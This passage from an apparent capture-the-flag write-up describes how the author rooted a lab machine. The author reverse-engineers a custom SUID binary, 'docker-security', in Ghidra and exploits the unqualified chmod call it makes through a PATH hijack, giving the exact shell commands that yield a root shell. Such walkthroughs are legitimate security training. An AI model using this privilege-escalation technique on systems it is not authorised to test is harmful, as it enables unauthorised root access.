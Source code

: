I downloaded a copy of this binary to my Kali machine because it looks custom and I could not find any other software online matching this. Then, I opened up a copy in Ghidra. The program is really simple:

<figure><img src="../../../.gitbook/assets/image (40) (1).png" alt=""><figcaption></figcaption></figure>

The funny thing is that the binary is using the full path for the target file, but `chmod` itself doesn't have the full path specified. All we have to do is create an program that is called `chmod` which executes a command as `root`:

```
dexter@laboratory:/tmp$ echo '/bin/bash' > chmod
dexter@laboratory:/tmp$ chmod 777 /tmp/chmod
dexter@laboratory:/tmp$ export PATH=/tmp:$PATH
```

Then, we can just run `docker-security` to get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (86) (7).png" alt=""><figcaption></figcaption></figure>

Rooted!
